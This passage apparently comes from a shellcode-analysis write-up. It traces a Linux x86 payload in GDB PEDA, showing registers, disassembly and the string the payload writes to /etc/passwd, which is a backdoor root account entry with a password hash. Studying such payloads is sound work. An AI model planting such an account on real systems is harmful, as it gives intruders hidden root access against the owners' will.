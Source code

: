 Right after that we see a CALL to a memory address further down or to code+81. The CALL here will push the next set of instructions to the stack. Looking at the instructions past it just looks like a bunch of garbage instructions, however if we examine the addresses in memory we see that this is actually the string to be written to our open file. 

Let's set a breakpoint at `0x402091`.

```
[----------------------------------registers-----------------------------------]
EAX: 0xbffff35c ("/etc//passwd")
EBX: 0x3 
ECX: 0x401 
EDX: 0xb7fa4870 --> 0x0 
ESI: 0x1 
EDI: 0xb7fa3000 --> 0x1b9db0 
EBP: 0xbffff388 --> 0x0 
ESP: 0xbffff358 --> 0x40206b ("absolomb:Az3g.zbq9cr7c:0:0::/:/bin/sh\nY\213Q\374j\004X̀j\001X̀")
EIP: 0x402091 --> 0xfc518b59
EFLAGS: 0x202 (carry parity adjust zero sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
=> 0x402091 <code+81>:	pop    ecx
   0x402092 <code+82>:	mov    edx,DWORD PTR [ecx-0x4]
   0x402095 <code+85>:	push   0x4
   0x402097 <code+87>:	pop    eax
[------------------------------------stack-------------------------------------]
0000| 0xbffff358 --> 0x40206b ("absolomb:Az3g.zbq9cr7c:0:0::/:/bin/sh\nY\213Q\374j\004X̀j\001X̀")
```

As you can see on the stack is indeed the string to be written to /etc/passwd.

What's more interesting here is that looking at GDB PEDA, we can see the next instruction is a POP to ECX as well as a MOV into EDX. This POP will push our string into ECX. However just doing a regular disassemble we cannot see this instruction and it also does not show in `ndisasm`. I believe this is due to the length of our string and it's associated instructions not realigning up nicely for disassembly. 

Let's continue and break just before our next interrupt is called. 

```
[----------------------------------registers-----------------------------------]
EAX: 0x4 
EBX: 0x3 
ECX: 0x40206b ("absolomb:Az3g.zbq9cr7c:0:0::/:/bin/sh\nY\213Q\374j\004X̀j\001X̀")
EDX: 0x26 ('&')
ESI: 0x1 
EDI: 0xb7fa3000 --> 0x1b9db0 
EBP: 0xbffff388 --> 0x0 
ESP: 0xbffff35c ("/etc//passwd")
EIP: 0x402098 --> 0x16a80cd
EFLAGS: 0x202 (carry parity adjust zero sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x402094 <code+84>:	cld    
   0x402095 <code+85>:	push   0x4
   0x402097 <code+87>:	pop    eax
=> 0x402098 <code+88>:	int    0x80
   0x40209a <code+90>:	push   0x1
   0x40209c <code+92>:	pop    eax
   0x40209d <code+93>:	int    0x80
   0x40209f <code+95>:	add    BYTE PTR [eax],al
```
